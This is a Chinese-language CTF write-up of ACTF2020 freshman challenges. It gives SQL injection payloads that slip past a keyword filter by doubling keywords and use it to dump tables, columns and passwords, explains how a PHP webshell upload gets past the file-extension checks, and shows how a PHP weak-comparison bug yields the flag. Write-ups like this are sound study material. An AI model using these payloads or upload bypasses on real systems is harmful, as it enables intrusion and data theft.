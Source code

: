 ```
password=1%27ununionion seselectlect 1,2,database()%23
```

报表名，表名为"b4bsql,geekuser"

```
password=1%27ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database()%23
//from,where也过滤了，同时information中有or，也双写一下
```

爆列名，列名为"id,username,password,id,username,password"

```
password=1%27ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema=database()%23
```

爆数据，拿到flag

```
password=1%27ununionion seselectlect 1,2,group_concat(passwoorrd) frfromom b4bsql%23
```

# [ACTF2020 新生赛]Upload

文件上传，尝试一句话木马的php文件，JS弹窗提示要jpg、png、gif的图片，

尝试抓包上传php绕过前端验证，不成功，还存在其它检测，不改后缀改`Content-Type: image/jpeg`上传还是失败，这应该检测了文件扩展名，尝试对后缀名php进行大小写绕过，好家伙，成功上传，同时给出了路径，接下来就是蚁剑直连，但是失败了，很迷惑，尝试其它后缀名phtml，这个成功了。

询问了一下认识的师傅，终于弄明白了，这里是因为Windows对大小写不敏感，但Linux对大小写敏感，在Linux中，`1.pHp`不能被当作php文件解析执行，这里后端用了黑名单校验，没有过滤大小写，所以能上传成功，但对方环境为Linux，文件不能执行，所以蚁剑直连失败了。学到了！(大小写绕过只适用于Windows)

# [ACTF2020 新生赛]BackupFile

打卡靶机，页面回显为“Try to find out source file!”，题目意思又为“备份文件”，很容易就想到用dirsearch扫描网站目录，果不其然发现源文件`/index.php.bak`，将文件下载，得到源码

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);//将$key的值强制转换为整数值
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }//因为是'=='，所以这里应该利用php的弱比较，$str会变为123进行比较
}
else {
    echo "Try to find out source file!";
}
```
